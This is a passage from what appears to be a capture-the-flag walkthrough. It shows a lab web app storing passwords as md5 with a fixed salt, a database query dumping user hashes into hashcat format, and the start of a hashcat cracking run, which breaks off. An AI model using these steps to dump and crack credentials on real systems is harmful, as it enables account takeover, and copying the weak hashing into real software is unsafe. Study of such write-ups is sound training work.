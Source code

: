 
The password is `md5($db_salt . $_POST['password'])`. The same thing can be
observed in `login.php`:

    
    
    // Check if username:password is correct
    $res = pg_prepare($db_conn, "login_query", 'SELECT id, username, is_activated::int, is_admin::int FROM users WHERE username=$1 AND password=$2');
    $res = pg_execute($db_conn, "login_query", array($_POST['username'], md5($db_salt . $_POST['password'])));
    

`$db_salt` is defined in `db_connect.php`:

    
    
    $db_salt = "NaCl";
    

Appending the salt does give a matching hash for 0xdf’s password:

    
    
    oxdf@hacky$ echo -n "NaCl0xdf" | md5sum
    79275232b2c9c937f145d7cc13d9339b  -
    

#### Formatting Hashes

`hashcat` has a mode where it will read in hash and salt separated by `:`.
I’ll use `||` in postgres to append strings together to generate an easily
copyable list:

    
    
    broscience=> select username || ':' || password || ':NaCl' from users;
                          ?column?                       
    -----------------------------------------------------
     administrator:15657792073e8a843d4f91fc403454e1:NaCl
     bill:13edad4932da9dbb57d9cd15b66ed104:NaCl
     michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl
     john:a7eed23a7be6fe0d765197b1027453fe:NaCl
     dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl
     0xdf:79275232b2c9c937f145d7cc13d9339b:NaCl
    (6 rows)
    

#### Hashcat

I’ll pass that file to `hashcat` and let it try to recognize the hash format.
The `--user` flag tells `hashcat` to split off the string before the first `:`
as the username. It finds a bunch of possible hash formats, and prints a table
of them, asking me to re-run specifying which mode to use:

    
    
    $ hashcat hashes --user /usr/share/wordlists/rockyou.txt
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    The following 20 hash-modes match the structure of your input hash:
    